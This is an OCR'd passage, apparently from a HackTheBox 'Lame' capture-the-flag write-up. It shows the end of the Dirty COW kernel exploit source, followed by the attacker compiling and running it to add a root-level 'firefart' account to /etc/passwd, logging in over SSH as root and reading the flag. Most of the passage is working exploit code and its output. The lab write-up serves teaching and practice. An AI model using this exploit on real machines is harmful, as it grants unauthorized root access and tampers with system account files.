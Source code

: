   }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
daemon@lame:/tmp$ gcc -pthread exploit.c -o dirty -lcrypt
gcc -pthread exploit.c -o dirty -lcrypt
daemon@lame:/tmp$ ls
ls
5144.jsvc_up  dirty  exploit.c
daemon@lame:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: pass

Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: b7fd1000


root@kali:~/htb/lame# ssh firefart@10.10.10.3
The authenticity of host '10.10.10.3 (10.10.10.3)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.3' (RSA) to the list of known hosts.
firefart@10.10.10.3's password:
Last login: Wed Feb 27 20:58:20 2019 from :0.0
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
firefart@lame:~# whoami
firefart
firefart@lame:~# pwd
/root
firefart@lame:~# ls
Desktop  reset_logs.sh  root.txt  vnc.log
firefart@lame:~# cat root.txt
92caac3be140ef409e45721348a4e9df
firefart@lame:~#
